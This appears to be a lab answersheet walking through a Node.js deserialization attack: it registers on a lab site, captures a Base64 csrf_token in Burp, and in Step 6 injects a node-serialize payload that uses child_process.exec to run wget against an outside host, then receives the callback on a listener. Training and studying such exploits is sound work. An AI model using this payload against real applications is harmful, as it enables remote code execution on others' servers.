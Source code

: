 # Node Deserialization Answersheet

**Step 1:** Navigate to "Node Website: 16663" link.<br />
<kbd> <img src="1.png" /> </kbd>
<br /> <br />

**Step 2:** Provide the required details and click on "Register" button.<br />
<kbd> <img src="2.png" /> </kbd>
<br /> <br />

**Step 3:** Capture the request in Burp proxy and capture the csrf_token parameter.<br />
<kbd> <img src="3.png" /> </kbd>
<br /> <br />

**Step 4:** Observe the value while converting the Base64 information.<br />
<kbd> <img src="4.png" /> </kbd>
<br /> <br />

**Step 5:** Send the request to Burp repeater captured in **Step 3**.<br />
<kbd> <img src="5.png" /> </kbd>
<br /> <br />

**Step 6:** Create the node.js serialized payload using the following information.<br />
```
{"rce":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('wget http://192.168.X.206:9999/test /',function(error, stdout, stderr) {console.log(stdout) });\n }()"}
```
<kbd> <img src="6.png" /> </kbd>
<br /> <br />

**Step 7:** Start the listener for reverse shell.<br />
<kbd> <img src="7.png" /> </kbd>
<br /> <br />

**Step 8:** Provide the payload generated in **Step 6** in "csrf_token" parameter.<br />
<kbd> <img src="8.png" /> </kbd>
<br /> <br />

**Step 9:** The request information will be received in reverse shell.<br />
<kbd> <img src="9.png" /> </kbd>
<br /> <br />